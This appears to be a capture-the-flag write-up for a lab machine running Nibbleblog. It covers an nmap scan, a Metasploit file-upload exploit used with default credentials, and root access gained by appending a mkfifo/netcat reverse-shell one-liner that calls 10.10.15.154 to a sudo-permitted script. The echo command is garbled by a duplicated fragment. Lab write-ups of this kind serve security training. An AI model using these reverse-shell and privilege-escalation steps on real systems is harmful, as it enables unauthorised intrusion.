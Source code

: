 
After running a service `nmap` scan, I see ports `22` (ssh) and `80` (tcp) open.

Looking at the page source of the initial web address shows a comment to the directory `/nibbleblog/`.

In a metasploit terminal I search `nibbleblog` and get the exploit `exploit/multi/http/nibbleblog_file_upload`, which requires credentials, but the default credentials `admin:nibbles` work. Using the options keyword be sure to add all required settings for the payload.



Once I get shell access I run `sudo -l` and find the user `nibbler` can run `/home/nibbler/personal/stuff/monitor.sh`. I append my shell to the end of the script and run netcat locally to get root access.

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh < /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
```

```
$ nc -lnvp 8083
$ id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is in `/root/root.txt`


